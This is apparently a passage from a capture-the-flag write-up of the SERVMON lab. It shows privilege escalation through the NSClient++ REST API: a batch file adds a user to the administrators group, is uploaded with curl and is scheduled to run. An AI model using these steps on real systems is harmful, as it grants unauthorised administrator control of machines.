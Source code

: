 ```
nadine@SERVMON c:\Program Files\NSClient++>curl -s -k -u admin https://localhost:8443/api/v1/modules/CheckExternalScripts
Enter host password for user 'admin':
{"description":"Module used to execute external scripts","id":"CheckExternalScripts","load_url":"https://localhost:8443/api/v1/modules/CheckExternalScripts/commands/load","loaded":true,"metadata":{"alias":"","plugin_id":"0"},"name":"Che
ckExternalScripts","title":"CheckExternalScripts","unload_url":"https://localhost:8443/api/v1/modules/CheckExternalScripts/commands/unload"}
nadine@SERVMON c:\Program Files\NSClient++>

nadine@SERVMON c:\Program Files\NSClient++>curl -s -k -u admin https://localhost:8443/api/v1/modules/Scheduler
Enter host password for user 'admin':
{"description":"Use this to schedule check commands and jobs in conjunction with for instance passive monitoring through NSCA","id":"Scheduler","load_url":"https://localhost:8443/api/v1/modules/Scheduler/commands/load","loaded":true,"me
tadata":{"alias":"","plugin_id":"3"},"name":"Scheduler","title":"Scheduler","unload_url":"https://localhost:8443/api/v1/modules/Scheduler/commands/unload"}
nadine@SERVMON c:\Program Files\NSClient++>
```

```
@echo off
net localgroup administrators nadine /add
```

Then, we added the `evil.bat` script in `NSClient++` using the REST API:

```
nadine@SERVMON C:\Users\Nadine\Documents>curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary @evil.bat
Enter host password for user 'admin':
Added check_new as scripts\check_new.bat
```

Finally, we scheduled our script to run in 1 minute:

```
nadine@SERVMON C:\Program Files\NSClient++\modules>curl -s -k -u admin "https://localhost:8443/api/v1/queries/check_new/commands/execute_nagios?time=1m"
Enter host password for user 'admin':
{"command":"check_new","lines":[{"message":"The command completed successfully.","perf":""}],"result":"OK"}
nadine@SERVMON C:\Program Files\NSClient++\modules>
```

Upon execution, `Nadine` was successfully added to the `Administrator` group, granting us elevated privileges.

```
nadine@SERVMON C:\Program Files\NSClient++\modules>net user nadine
User name                    Nadine
Full Name                    Nadine
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/28/2022 7:33:50 PM
Password expires             Never
Password changeable          2/28/2022 7:33:50 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
```